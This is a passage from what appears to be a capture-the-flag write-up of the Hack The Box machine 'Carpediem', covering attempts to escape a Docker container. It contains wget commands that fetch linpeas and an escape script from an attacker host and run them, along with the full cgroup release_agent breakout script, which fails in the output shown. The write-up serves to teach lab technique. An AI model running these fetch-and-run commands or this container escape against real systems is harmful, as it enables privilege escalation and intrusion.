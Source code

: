 ![[/assets/images/htb-writeup-carpediem/carpediem22.png]]

```bash
# mount -t cgroup -o rdma cgroup /tmp/esc
mount: /tmp/esc: permission denied.
```

Running `linpeas.sh` confirms that this should be a breakout vector, so maybe I need to dig a bit deeper.
```bash
# wget http://10.10.14.10/linpeas.sh
# chmod +x linpeas.sh
# bash linpeas.sh 

══╣ Breakout via mounts
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation/sensitive-mounts
═╣ release_agent breakout 1........ Yes
```

Steal the script from HackTricks, upload it and run doesn't work either..
```bash
➜  carpediem cat esc.sh 
# Finds + enables a cgroup release_agent
# Looks for something like: /sys/fs/cgroup/*/release_agent
d=`dirname $(ls -x /s*/fs/c*/*/r* |head -n1)`
# If "d" is empty, this won't work, you need to use the next PoC

# Enables notify_on_release in the cgroup
mkdir -p $d/w;
echo 1 >$d/w/notify_on_release
# If you have a "Read-only file system" error, you need to use the next PoC

# Finds path of OverlayFS mount for container
# Unless the configuration explicitly exposes the mount point of the host filesystem
# see https://ajxchapman.github.io/containers/2020/11/19/privileged-container-escape.html
t=`sed -n 's/overlay \/ .*\perdir=\([^,]*\).*/\1/p' /etc/mtab`

# Sets release_agent to /path/payload
touch /o; echo $t/c > $d/release_agent

# Creates a payload
echo "#!/bin/sh" > /c
echo "ps > $t/o" >> /c
chmod +x /c

# Triggers the cgroup via empty cgroup.procs
sh -c "echo 0 > $d/w/cgroup.procs"; sleep 1

# Reads the output
cat /o


# wget http://10.10.14.10/esc.sh
# chmod +x esc.sh
# bash esc.sh
mkdir: cannot create directory '/sys/fs/cgroup/rdma/w': Read-only file system
esc.sh: line 11: /sys/fs/cgroup/rdma/w/notify_on_release: No such file or directory
esc.sh: line 20: /sys/fs/cgroup/rdma/release_agent: Read-only file system
sh: 1: cannot create /sys/fs/cgroup/rdma/w/cgroup.procs: Directory nonexistent
```
